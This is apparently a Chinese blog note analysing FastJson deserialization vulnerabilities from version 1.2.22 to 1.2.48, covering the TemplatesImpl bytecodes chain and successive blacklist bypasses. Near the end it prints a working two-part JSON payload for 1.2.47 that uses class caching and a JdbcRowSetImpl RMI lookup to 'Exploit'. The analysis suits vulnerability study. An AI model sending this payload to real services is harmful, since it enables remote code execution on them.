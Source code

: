 ```yaml
---
title: FastJson系列反序列化漏洞分析
date: 2022-2-23
tags:
 - Vulnerabilities
 - 笔记
categories:
 - Vulnerabilities
---
```


### 原理

* FastJson序列化对象为字符串使用toJSONString方法，反序列化还原对象使用：parseObject(String text)、parse(String text)、parseObject(String text, Class clazz)。其中，parseObject返回JSONObject，而parse返回的是实际类型的对象。当在没有对应类定义的情况下，会使用JSON.parseObject来获取数据。

* 而在反序列化的过程里，会自动调用反序列化对象中的getter、setter方法以及构造函数，这就是FastJson反序列化漏洞产生的原因。
* 反序列化的过程分成2步，首先是loadClass，在这个过程中会经过黑白名单检查，看这个类是否可以被反序列化。然后再进行deserialize。这个过程会不断的parse，去调用get or set方法，这个过程就可能出现恶意执行

### FastJson-1.2.22

恶意payload：

![image-20220414172531755](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220421222748.png)

type是要被反序列的类的类型。这个payload关键有两点，一个是bytecodes，另一个是outputProperties。

bytecodes就是包含恶意代码的恶意类，然后对他进行base64编码，生成字节码数组得到的。

![image-20220414172859344](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220422103753.png)

因为恶意代码已经被插入到了Template类前面，那么在对这个类进行实例化的时候，就会先执行恶意代码段，也就导致了漏洞。

具体执行的过程就是deserialize的过程，会不断的parse，一直到调用ouputProperties的get方法

![image-20220414190617752](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220422103813.png)

这个过程会调用defineTransletClasses()，里面会把bytecodes给class，相当于class就是bytecodes，然后newInstance。此时也就触发了前面插入的恶意代码段

### fastJson1.2.25-1.2.41，加黑名单，利用L绕过

### fastJson1.2.42 去除L判断黑名单，利用LL继续绕过

### fastJson1.2.44 L黑名单直接关闭

### fastJson 1.2.47 用Class控制缓存

因为在判断黑名单部分的逻辑是：首先看该类是否在缓存中，如果在，直接取。如果不在，那么进行黑名单判断。这也就存在漏洞，如果预先把类加到了缓存中，接下来判断的时候，就可以直接从缓存中取，不会进行黑名单判断。

因此，这里借助class，将jdbcRowSet加到缓存中，来绕过。

payload由两部分组成，首先是：

```json
{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}
```

这里会将com.sun.rowset.JdbcRowSetImpl加到缓存

第二部分就和之前一样：

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit","autoCommit":true}
```

在反序列化的时候，会调用setDataSourceName和setAutoCommit，在调用setAutoCommit的时候会调用connect方法，connect方法中会调用lookup

![image-20220414174333822](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220422103825.png)

![image-20220414174341103](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220422103844.png)

![image-20220414174350048](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220422103855.png)

### fastJson1.2.48 在loadClass时，将缓存开关设置为false，Class加入黑名单